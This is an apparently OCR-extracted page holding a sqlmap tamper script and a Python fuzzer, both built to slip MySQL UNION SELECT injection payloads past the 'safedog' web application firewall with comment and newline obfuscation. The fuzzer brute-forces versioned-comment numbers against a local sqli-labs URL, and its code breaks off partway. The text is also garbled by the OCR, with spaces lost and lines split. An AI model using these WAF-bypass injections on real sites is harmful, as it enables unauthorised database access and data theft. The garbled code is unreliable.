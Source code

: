 ## fuzz绕过脚本

```python
#!/usr/bin/envpython

"""
Copyright(c)2006-2019sqlmapdevelopers(http://sqlmap.org/)
Seethefile'LICENSE'forcopyingpermission
"""

import os

from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
from lib.core.enums import PRIORITY

__priority__=PRIORITY.HIGHEST

def dependencies():
	singleTimeWarnMessage("tamper script '%s' is only meant to be run against %s"%(os.path.basename(__file__).split(".")[0],DBMS.MYSQL))

def tamper(payload,**kwargs):
    
#%23a%0aunion/*!44575select*/1,2,3
	if payload:
        payload=payload.replace("union","%23a%0aunion")
        payload=payload.replace("select","/*!44575select*/")
        payload=payload.replace("%20","%23a%0a")
        payload=payload.replace("","%23a%0a")
        payload=payload.replace("database()","database%23a%0a()")
	return payload

import requests,time

url='http://127.0.0.1:8080/sqlilabs/Less-2/?id=-1'
union='union'
select='select'
num='1,2,3'
a={'%0a','%23'}
aa={'x'}
aaa={'%0a','%23'}
b='/*!'
c='*/'
def bypass():
	for xiaodi in a:
		for xiaodis in aa:
			for xiaodiss in aaa:
				for two in range(44500,44600):
					urls=url+xiaodi+xiaodis+xiaodiss+b+str(two)+union+c+xiaodi+xiaodis+xiaodiss+select+xiaodi+xiaodis+xiao
diss+num
					#urlss=url+xiaodi+xiaodis+xiaodiss+union+xiaodi+xiaodis+xiaodiss+b+str(two)+select+c+xiaodi+xiaodis+xia
odiss+num
					try:
						result=requests.get(urls).text
						len_r=len(result)
						if (result.find('safedog')==-1):
							#print('bypass url addreess：'+urls+'|'+str(len_r))
							 print('bypass url addreess：'+urls+'|'+str(len_r))
						if len_r==715:
                             fp = open('url.txt','a+')
```